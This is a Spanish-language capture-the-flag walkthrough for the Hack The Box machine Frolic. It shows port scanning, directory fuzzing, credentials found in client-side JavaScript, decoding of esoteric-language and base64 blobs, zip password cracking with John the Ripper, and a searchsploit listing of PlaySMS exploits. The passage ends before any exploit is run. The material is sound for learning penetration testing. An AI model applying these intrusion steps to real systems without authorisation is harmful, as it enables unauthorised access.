


## Información Básica

### Técnicas vistas

- Web Enumeration
- Information Leakage
- Playing with esoteric languages - Ook! and Brainfuck
- Cracking Zip Password Protected Files
- PlaySMS Exploitation - 'import.php' Remote Code Execution [RCE]
- BufferOverflow 32 bits - Ret2libc [Privilege Escalation]

### Preparación

- eWPT
- Buffer Overflow

***

## Reconocimiento

### Nmap

Iniciaremos el escaneo de **Nmap** con la siguiente línea de comandos:

```bash wrap=false
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.111 -oG nmap/allPorts 
```

| Parámetro           | Descripción                                                                                  |
| ------------------- | -------------------------------------------------------------------------------------------- |
| `-p-`               | Escanea **todos los puertos** (1-65535).                                                     |
| `--open`            | Muestra **solo puertos abiertos**.                                                           |
| `-sS`               | Escaneo **SYN** (rápido y sigiloso).                                                         |
| `--min-rate 5000`   | Envía al menos **5000 paquetes por segundo** para acelerar el escaneo.                       |
| `-vvv`              | Máxima **verbosidad**, muestra más detalles en tiempo real.                                  |
| `-n`                | Evita resolución DNS.                                                                        |
| `-Pn`               | Asume que el host está activo, **sin hacer ping** previo.                                    |
| `10.10.10.111`      | Dirección IP objetivo.                                                                       |
| `-oG nmap/allPorts` | Guarda la salida en formato **grepable** para procesar con herramientas como `grep` o `awk`. |

```txt wrap=false
PORT     STATE SERVICE      REASON
22/tcp   open  ssh          syn-ack ttl 63
139/tcp  open  netbios-ssn  syn-ack ttl 63
445/tcp  open  microsoft-ds syn-ack ttl 63
1880/tcp open  vsat-control syn-ack ttl 63
9999/tcp open  abyss        syn-ack ttl 63
```

Ahora con la función **extractPorts**, extraeremos los puertos abiertos y nos los copiaremos al clipboard para hacer un escaneo más profundo:

```bash title="Función de S4vitar"
extractPorts () {
	ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')" 
	ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | head -n 1)" 
	echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
	echo -e "\t[*] IP Address: $ip_address" >> extractPorts.tmp
	echo -e "\t[*] Open ports: $ports\n" >> extractPorts.tmp
	echo $ports | tr -d '\n' | xclip -sel clip
	echo -e "[*] Ports copied to clipboard\n" >> extractPorts.tmp
	/bin/batcat --paging=never extractPorts.tmp
	rm extractPorts.tmp
}
```

```bash wrap=false
nmap -sVC -p22,139,445,1880,9999 10.10.10.111 -oN nmap/targeted
```

| Parámetro           | Descripción                                                                          |
| ------------------- | ------------------------------------------------------------------------------------ |
| `-sV`               | Detecta la **versión** de los servicios que están corriendo en los puertos abiertos. |
| `-C`                | Ejecuta **scripts NSE de detección de versiones y configuración**.                   |
| `-p`                | Escanea únicamente los puertos seleccionados.                                        |
| `10.10.10.111`      | Dirección IP objetivo.                                                               |
| `-oN nmap/targeted` | Guarda la salida en **formato normal** en el archivo indicado.                       |

```txt wrap=false
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 87:7b:91:2a:0f:11:b6:57:1e:cb:9f:77:cf:35:e2:21 (RSA)
|   256 b7:9b:06:dd:c2:5e:28:44:78:41:1e:67:7d:1e:b7:62 (ECDSA)
|_  256 21:cf:16:6d:82:a4:30:c3:c6:9c:d7:38:ba:b5:02:b0 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
1880/tcp open  http        Node.js (Express middleware)
|_http-title: Node-RED
9999/tcp open  http        nginx 1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.10.3 (Ubuntu)
Service Info: Host: FROLIC; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: frolic
|   NetBIOS computer name: FROLIC\x00
|   Domain name: \x00
|   FQDN: frolic
|_  System time: 2025-09-07T03:28:05+05:30
| smb2-time: 
|   date: 2025-09-06T21:58:05
|_  start_date: N/A
|_nbstat: NetBIOS name: FROLIC, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: mean: -1h49m59s, deviation: 3h10m30s, median: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

### Whatweb

Viendo que tiene 2 servicios `http` disponibles, vamos a hacer un reconocimiento con esta herramienta:

```bash wrap=false
❯ whatweb http://10.10.10.111:1880
http://10.10.10.111:1880 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, IP[10.10.10.111], Script[text/x-red], Title[Node-RED], X-Powered-By[Express], X-UA-Compatible[IE=edge]
❯ whatweb http://10.10.10.111:9999
http://10.10.10.111:9999 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.10.3 (Ubuntu)], IP[10.10.10.111], Title[Welcome to nginx!], nginx[1.10.3]
```

### Wfuzz

También sería interesante hacer un poco de fuzzing a ver si encontramos algo interesante:

```bash wrap=false

❯ wfuzz -c -L --hc=404 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.111:9999/FUZZ
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.111:9999/FUZZ
Total requests: 220545

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000245:   200        25 L     63 W       634 Ch      "admin"                                                                                                                
000000597:   200        1006 L   5031 W     84161 Ch    "test"                                                                                                                 
000000820:   403        7 L      11 W       178 Ch      "dev"                                                                                                                  
000001612:   200        3 L      3 W        28 Ch       "backup"                                                                                                               
000011647:   403        7 L      11 W       178 Ch      "loop" 
```

Si miramos un poco la ruta `/admin`



Vemos un panel de login, viendo el **código fuente** de esta página vemos un archivo `javascript` algo turbio:

```js title="/admin/js/login.js" wrap=false
var attempt = 3; // Variable to count number of attempts.

// Below function Executes on click of login button.
function validate() {
    var username = document.getElementById("username").value;
    var password = document.getElementById("password").value;

    if (username == "admin" && password == "superduperlooperpassword_lol") {
        alert("Login successfully");
        window.location = "success.html"; // Redirecting to other page.
        return false;
    } else {
        attempt--; // Decrementing by one.
        alert("You have left " + attempt + " attempt(s).");

        // Disabling fields after 3 attempts.
        if (attempt == 0) {
            document.getElementById("username").disabled = true;
            document.getElementById("password").disabled = true;
            document.getElementById("submit").disabled = true;
            return false;
        }
    }
}
```

Si probamos esas credenciales nos logueamos con éxito, ahora la página muestra lo siguiente:

```txt title="/admin/success.html"
..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... ..... ..... ..... ..... ..!.? ..... ..... .!?!! .?... ..... ..?.? !.?.. ..... ..... ....! ..... ..... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !...! ..... ..... .!.!! !!!!! !!!!! !!!.? ..... ..... ..... ..!?! !.?!! !!!!! !!!!! !!!!? .?!.? !!!!! !!!!! !!!!! .?... ..... ..... ....! ?!!.? ..... ..... ..... .?.?! .?... ..... ..... ...!. !!!!! !!.?. ..... .!?!! .?... ...?. ?!.?. ..... ..!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!!!. ?.... ..... ..... ...!? !!.?! !!!!! !!!!! !!!!! ?.?!. ?!!!! !!!!! !!.?. ..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... !.... ..... ..!.! !!!!! !.!!! !!... ..... ..... ....! .?... ..... ..... ....! ?!!.? !!!!! !!!!! !!!!! !?.?! .?!!! !!!!! !!!!! !!!!! !!!!! .?... ....! ?!!.? ..... .?.?! .?... ..... ....! .?... ..... ..... ..!?! !.?.. ..... ..... ..?.? !.?.. !.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !!!!! !!... ..... ...!. ?.... ..... !?!!. ?!!!! !!!!? .?!.? !!!!! !!!!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!.! !!!!! !!!!! !!!!! !.... ..... ..... ..... !.!.? ..... ..... .!?!! .?!!! !!!!! !!?.? !.?!! !.?.. ..... ....! ?!!.? ..... ..... ?.?!. ?.... ..... ..... ..!.. ..... ..... .!.?. ..... ...!? !!.?! !!!!! !!?.? !.?!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!.?. ..... ...!? !!.?. ..... ..?.? !.?.. !.!!! !!!!! !!!!! !!!!! !.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... ..... ..... .!?!! .?!!! !!!!! !!!!! !!!?. ?!.?! !!!!! !!!!! !!.!! !!!!! ..... ..!.! !!!!! !.?.
```

### Esoteric Languaje

Esto de primeras parece un lenguaje `esotérico`.

:::important
Un lenguaje de programación `esotérico` es un tipo de lenguaje creado con fines experimentales, artísticos o humorísticos, más que para resolver problemas prácticos. Suelen tener reglas extrañas, sintaxis poco convencional o limitaciones extremas que los hacen difíciles de usar, pero justamente eso los convierte en un reto intelectual y en una forma de expresión creativa dentro de la programación.
:::

Ahora deberíamos tratar de identificar que lenguaje es. Buscando en Internet, podríamos intuir que se trata del lenguaje [Ook](http://ast.wikipedia.org/wiki/Ook!), ya que la sintáxis es parecida.

Podríamos probar a convertirlo y ver si muestra algo:

```bash
❯ /usr/bin/cat data | tr -d ' ' | sed 's/\./Ook\./g' | sed 's/!/Ook!/g' | sed 's/?/Ook?/g'
Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook?Ook!Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook?Ook.Ook?Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook?Ook!Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook?Ook.Ook?Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook?Ook!Ook!Ook.Ook?Ook!Ook!Ook!Ook!Ook!Ook!Ook?Ook.Ook?Ook!Ook.Ook?Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook.Ook.Ook.Ook!Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook.Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook?Ook!Ook!Ook.Ook?Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook?Ook.Ook?Ook!Ook.Ook?Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook?Ook!Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook?Ook.Ook?Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook.Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook?Ook!Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook?Ook.Ook?Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook?Ook!Ook!Ook.Ook?Ook!Ook!Ook!Ook!Ook!Ook!Ook?Ook.Ook?Ook!Ook.Ook?Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook?Ook!Ook!Ook.Ook?Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook?Ook.Ook?Ook!Ook.Ook?Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook?Ook!Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook?Ook.Ook?Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook.Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook.Ook!Ook!Ook!Ook!Ook!Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook?Ook!Ook!Ook.Ook?Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook?Ook.Ook?Ook!Ook.Ook?Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook?Ook!Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook?Ook.Ook?Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook?Ook!Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook?Ook.Ook?Ook!Ook.Ook?Ook.Ook.Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook?Ook!Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook?Ook.Ook?Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook?Ook!Ook!Ook.Ook?Ook!Ook!Ook!Ook!Ook!Ook!Ook?Ook.Ook?Ook!Ook.Ook?Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook?Ook!Ook!Ook.Ook?Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook?Ook.Ook?Ook!Ook.Ook?Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook?Ook!Ook!Ook.Ook?Ook!Ook!Ook!Ook!Ook!Ook!Ook?Ook.Ook?Ook!Ook.Ook?Ook!Ook!Ook!Ook.Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook.Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook?Ook!Ook!Ook.Ook?Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook?Ook.Ook?Ook!Ook.Ook?Ook!Ook!Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook?Ook!Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook?Ook.Ook?Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook?Ook!Ook!Ook.Ook?Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook?Ook.Ook?Ook!Ook.Ook?Ook!Ook!Ook!Ook!Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook?Ook!Ook!Ook.Ook?Ook!Ook!Ook!Ook!Ook!Ook!Ook?Ook.Ook?Ook!Ook.Ook?Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook?Ook!Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook?Ook.Ook?Ook!Ook.Ook?Ook.Ook.Ook!Ook.Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook?Ook!Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook?Ook.Ook?Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook!Ook.Ook?Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook?Ook!Ook!Ook.Ook?Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook?Ook.Ook?Ook!Ook.Ook?Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook.Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook.Ook.Ook.Ook.Ook.Ook.Ook.Ook!Ook.Ook!Ook!Ook!Ook!Ook!Ook!Ook!Ook.Ook?Ook.
```

Y nos sale como resultado:

```txt
Nothing here check /asdiSIAJJ0QWE9JAS
```

```txt title='/asdiSIAJJ0QWE9JAS/'
UEsDBBQACQAIAMOJN00j/lsUsAAAAGkCAAAJABwAaW5kZXgucGhwVVQJAAOFfKdbhXynW3V4CwAB BAAAAAAEAAAAAF5E5hBKn3OyaIopmhuVUPBuC6m/U3PkAkp3GhHcjuWgNOL22Y9r7nrQEopVyJbs K1i6f+BQyOES4baHpOrQu+J4XxPATolb/Y2EU6rqOPKD8uIPkUoyU8cqgwNE0I19kzhkVA5RAmve EMrX4+T7al+fi/kY6ZTAJ3h/Y5DCFt2PdL6yNzVRrAuaigMOlRBrAyw0tdliKb40RrXpBgn/uoTj lurp78cmcTJviFfUnOM5UEsHCCP+WxSwAAAAaQIAAFBLAQIeAxQACQAIAMOJN00j/lsUsAAAAGkC AAAJABgAAAAAAAEAAACkgQAAAABpbmRleC5waHBVVAUAA4V8p1t1eAsAAQQAAAAABAAAAABQSwUG AAAAAAEAAQBPAAAAAwEAAAAA
```

### Base64

Esto parece `Base64`, vamos a decodificarlo:

```bash wrap=false
❯ echo 'UEsDBBQACQAIAMOJN00j/lsUsAAAAGkCAAAJABwAaW5kZXgucGhwVVQJAAOFfKdbhXynW3V4CwAB BAAAAAAEAAAAAF5E5hBKn3OyaIopmhuVUPBuC6m/U3PkAkp3GhHcjuWgNOL22Y9r7nrQEopVyJbs K1i6f+BQyOES4baHpOrQu+J4XxPATolb/Y2EU6rqOPKD8uIPkUoyU8cqgwNE0I19kzhkVA5RAmve EMrX4+T7al+fi/kY6ZTAJ3h/Y5DCFt2PdL6yNzVRrAuaigMOlRBrAyw0tdliKb40RrXpBgn/uoTj lurp78cmcTJviFfUnOM5UEsHCCP+WxSwAAAAaQIAAFBLAQIeAxQACQAIAMOJN00j/lsUsAAAAGkC AAAJABgAAAAAAAEAAACkgQAAAABpbmRleC5waHBVVAUAA4V8p1t1eAsAAQQAAAAABAAAAABQSwUG AAAAAAEAAQBPAAAAAwEAAAAA' | base64 -d | xxd
base64: entrada inválida
00000000: 504b 0304 1400 0900 0800 c389 374d 23fe  PK..........7M#.
00000010: 5b14 b000 0000 6902 0000 0900 1c00 696e  [.....i.......in
00000020: 6465 782e 7068 7055 5409 0003 857c a75b  dex.phpUT....|.[
00000030: 857c a75b 7578 0b00 01                   .|.[ux...
```

Si buscamos por la firma de archivo `50 4b 03 04` en wikipeda:



Parece que es un **comprimido**, vamos a intentar descomprimirlo:

```bash wrap=false
❯ curl -s -X GET 'http://10.10.10.111:9999/asdiSIAJJ0QWE9JAS/' | tr -d '\n' | base64 -d > data.zip
❯ unzip data.zip
Archive:  data.zip
[data.zip] index.php password:
```

### Zip2john and johntheripper

Parece que está protegido por contraseña, vamos a intentar crackearla con `zip2john`:

```bash wrap=false
❯ zip2john data.zip > hash
ver 2.0 efh 5455 efh 7875 data.zip/index.php PKZIP Encr: TS_chk, cmplen=176, decmplen=617, crc=145BFE23 ts=89C3 cs=89c3 type=8
❯ cat hash
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: hash
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ data.zip/index.php:$pkzip$1*1*2*0*b0*269*145bfe23*0*43*8*b0*89c3*5e44e6104a9f73b2688a299a1b9550f06e0ba9bf5373e4024a771a11dc8ee5a034e2f6d98f6bee7ad0128a55c896ec2b58ba7fe050c8e1
       │ 12e1b687a4ead0bbe2785f13c04e895bfd8d8453aaea38f283f2e20f914a3253c72a830344d08d7d933864540e51026bde10cad7e3e4fb6a5f9f8bf918e994c027787f6390c216dd8f74beb2373551ac0b9a8a030e95106
       │ b032c34b5d96229be3446b5e90609ffba84e396eae9efc72671326f8857d49ce339*$/pkzip$:index.php:data.zip::data.zip
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password         (data.zip/index.php)     
1g 0:00:00:00 DONE (2025-09-09 09:11) 100.0g/s 819200p/s 819200c/s 819200C/s 123456..whitetiger
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

### Hex

```txt wrap=false title='index.php'
4b7973724b7973674b7973724b7973675779302b4b7973674b7973724b7973674b79737250463067506973724b7973674b7934744c5330674c5330754b7973674b7973724b7973674c6a77720d0a4b7973675779302b4b7973674b7a78645069734b4b797375504373674b7974624c5434674c53307450463067506930744c5330674c5330754c5330674c5330744c5330674c6a77724b7973670d0a4b317374506973674b79737250463067506973724b793467504373724b3173674c5434744c53304b5046302b4c5330674c6a77724b7973675779302b4b7973674b7a7864506973674c6930740d0a4c533467504373724b3173674c5434744c5330675046302b4c5330674c5330744c533467504373724b7973675779302b4b7973674b7973385854344b4b7973754c6a776743673d3d0d0a
```

Eso parece `hexadecimal` vamos a decodificarlo:

### Base64

```bash wrap=false
❯ cat index.php | xxd -ps -r
KysrKysgKysrKysgWy0+KysgKysrKysgKysrPF0gPisrKysgKy4tLS0gLS0uKysgKysrKysgLjwr
KysgWy0+KysgKzxdPisKKysuPCsgKytbLT4gLS0tPF0gPi0tLS0gLS0uLS0gLS0tLS0gLjwrKysg
K1stPisgKysrPF0gPisrKy4gPCsrK1sgLT4tLS0KPF0+LS0gLjwrKysgWy0+KysgKzxdPisgLi
```


Y eso es de nuevo `Base 64`:

```bash wrap=false
❯ cat index_data | tr -d '\n' | base64 -d; echo
+++++ +++++ [->++ +++++ +++<] >++++ +.--- --.++ +++++ .<+++ [->++ +<]>+
++.<+ ++[-> ---<] >---- --.-- ----- .<+++ +[->+ +++<] >+++. <+++[ ->---
<]>-- .<+++ [->++ +<]>+ .---. <+++[ ->--- <]>-- ----. <++++ [->++ ++<]>
++..< 
```

De nuevo eso es un lenguaje `esotérico` en concreto `Brainfuck`, esto es lo que nos devuelve:

```txt
idkwhatispass
```

Esto parece una contraseña. A partir de aquí podríamos volver a intentar a hacer ´fuzzing´ por ejemplo sobre el directorio `dev`:

```bash wrap=false
❯ wfuzz -c -L --hc=404 -t 200 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.111:9999/dev/FUZZ
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.111:9999/dev/FUZZ
Total requests: 220545

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000597:   200        1 L      1 W        5 Ch        "test"                                                                                                                 
000001612:   200        3 L      1 W        11 Ch       "backup" 
```

### Playsms

```txt title='/dev/backup'
/playsms
```


Si probamos las credenciales `admin:idkwhatispass` nos podemos loguear.

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/148)

## Explotación

Si buscamos vulnerabilidades con `searchsploit`, encontramos la siguiente:

```bash wrap=false
❯ searchsploit playsms
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                        |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
PlaySMS - 'import.php' (Authenticated) CSV File Upload Code Execution (Metasploit)                                                                    | php/remote/44598.rb
PlaySMS - index.php Unauthenticated Template Injection Code Execution (Metasploit)                                                                    | php/remote/48335.rb
PlaySms 0.7 - SQL Injection                                                                                                                           | linux/remote/404.pl
